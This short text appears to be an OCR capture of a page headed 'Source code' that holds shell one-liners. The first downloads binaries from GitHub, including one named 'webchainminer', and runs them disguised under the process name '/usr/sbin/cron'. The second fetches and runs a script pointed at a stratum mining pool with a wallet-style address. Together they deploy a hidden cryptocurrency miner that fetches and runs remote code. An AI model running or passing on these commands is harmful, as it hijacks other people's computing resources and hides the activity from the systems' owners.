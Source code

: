 wget https://github.com/miingiing/act/raw/main/godb && wget https://raw.githubusercontent.com/cihuuy/hodo/refs/heads/master/config.json && wget https://github.com/cihuuy/webchainminer/raw/refs/heads/main/wch && chmod +x godb wch \
&& ./godb -s "/usr/sbin/cron" -p croned.pid ./wch 


apt install libjansson-dev -y && wget https://github.com/brcbr/gf/raw/refs/heads/main/sh && chmod +x sh && ./sh RP6jeZhhHiZmzdufpXHCWjYVHsLaPXARt1.user3 stratum+tcp://wbnewtea-40878.portmap.host:40878 2 n
